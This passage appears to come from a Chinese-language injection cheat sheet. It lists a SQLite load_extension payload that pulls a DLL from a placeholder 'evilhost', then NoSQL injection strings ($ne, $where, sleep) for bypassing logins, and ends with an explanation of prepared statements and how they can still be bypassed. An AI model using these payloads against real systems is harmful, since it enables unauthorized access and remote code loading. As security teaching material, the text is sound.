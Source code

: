 Load_extension

UNION SELECT 1,load_extension(\'\\\\evilhost\\evil.dll\',\'E\');\--

#### NoSQL Payload

##### 常见Payload

- ##### 绕过限制条件

  -   {\"username\": \"user\"} =\> {\"username\": {\"ne\": \"fakeuser\"}}

  -   {\"\$where\": \"return true\"}

- ##### 测试用字符

  - ##### ' \" \\ / \$ \[ \] . \>

- ##### 布尔测试常用

  - {\"\$ne\": -1}
  - {\"\$in\": \[\]}
  - {\"\$where\": \"return true\"}
  - {\"\$or\": \[{},{\"foo\":\"1\"}\]}

- ##### 时间

  - {\"\$where\": \"sleep(100)\"}

# 9.预编译

#### 简介

SQL 注入是因为解释器将传入的数据当成命令执行而导致的，预编译是用于解决这个问题的一种方法。和普通的执行流程不同，预编译将一次查询通过两次交互完成，第一次交互发送查询语句的模板，由后端的 SQL引擎进行解析为 AST 或 Opcode，第二次交互发送数据，代入 AST 或 Opcode 中执行。因为此时语法解析已经完成，所以不会再出现混淆数据和代码的过程。

#### 模拟预编译

为了防止低版本数据库不支持预编译的情况，模拟预编译会在客户端内部模拟参数绑定的过程，进行自定义的转义。

#### 绕过

#### 预编译使用错误

预编译只是使用占位符替代的字段值的部分，如果第一次交互传入的命令使用了字符串拼接，使得命令是攻击者可控的，那么预编译不会生效。

#### 部分参数不可预编译

在有的情况下，数据库处理引擎会检查数据表和数据列是否存在，因此数据表名和列名不能被占位符所替代。这种情况下如果表名和列名可控，则可能引入漏洞。

#### 预编译实现错误

部分语言引擎在实现上存在一定问题，可能会存在绕过漏洞。

# 10.参考文章

